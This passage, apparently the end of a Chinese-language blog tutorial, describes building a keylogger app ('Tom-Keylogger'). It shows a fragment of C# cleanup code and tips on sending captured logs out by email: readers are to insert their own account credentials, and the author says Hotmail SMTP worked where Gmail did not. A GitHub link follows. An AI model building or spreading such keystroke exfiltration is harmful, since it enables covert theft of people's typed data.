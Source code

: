 ```
                failed = 0;
            }
            catch
            {
                data.Dispose();//释放掉 资源 
                failed = 1;
            }
            data.Dispose();

            //if (failed == 0)
              //  File.WriteAllText(Program.path, ""); //如果发送成功 则 将txt清空  防止发送相同数据

            failed = 0;
        }
```

- 你只需要将代码中的******  替换为自己的账号密码即可
- 需要注意的是，源程序中采用的smtp协议是gmail，本人亲测后发现由于网络原因无法实现按周期发送。
- 多次尝试后，发现只有hotmail可以满足成功实现。但是发件箱和收件箱必须同时开启smtp和pop3协议。


### 结语
> 
以上便是我写这个 APP 的具体实现思路，以及踩过的一些坑，记录下来，给大家看看。

#### This tutorial is for educational purposes only, please do not use this for malicious purposes. 

最后附上这个 APP 的 Github 地址  [Tom-Keylogger](https://github.com/tomridder/kl2) 欢迎大家 :heart: star 和 fork。

如果有什么想法或者建议，非常欢迎大家来讨论。
 
-----
